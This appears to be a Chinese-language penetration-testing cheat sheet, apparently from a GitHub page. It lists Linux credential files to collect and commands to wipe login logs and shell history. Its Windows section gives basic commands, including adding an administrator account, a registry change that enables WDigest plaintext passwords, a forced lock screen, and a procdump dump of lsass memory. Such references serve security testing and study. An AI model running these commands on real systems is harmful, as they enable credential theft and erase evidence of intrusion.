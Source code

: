 ### 数据收集

```
/etc/passwd
/etc/shadow
/etc/crontab
/etc/nginx/sites-available/default
```

### 清理痕迹

```
echo > /var/log/wtmp
echo > /var/log/btmp
echo > /var/log/lastlog
history -cw
```

## Window

### 基本命令

```
cd                                         //改变或显示当前目录 [/d]
dir                                        //显示当前目录下内容
ren                                        //文件或目录重命名
type                                       //查看文本文件内容
md                                         //创建目录
rd                                         //删除目录
copy                                       //复制文件
move                                       //移动文件
del                                        //删除文件 [/f强制删除]
cls                                        //清屏
chcp                                       //查看或修改窗口字符集 [65001-utf8,936-GBK中文简体]
whoami                                     //显示用户名
net user name *                            //修改用户密码
net user                                   //查看存在用户账号
net user name                              //查看当前用户信息
net user name password /add                //创建用户
net localgroup administrators name /add    //提升权限
net user name /delete                      //删除用户
systeminfo                                 //当前计算机的综合信息
tasklist                                   //显示当前运行的进程信息 [/svc显示进程主持的服务]
taskkill /pid num                          //结束进程 [/f强行终止/t由此启动的子进程]
ipconfig /flushdns                         //清除本地DNS缓存
```

### 数据收集

```
# 修改注册表开启/关闭Wdigest Auth
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
rundll32 user32.dll,LockWorkStation                         #强制锁屏,使其重新登录
procdump.exe -accepteula -ma lsass.exe lsass.dmp            #导出内存文件lsass.dmp
```
  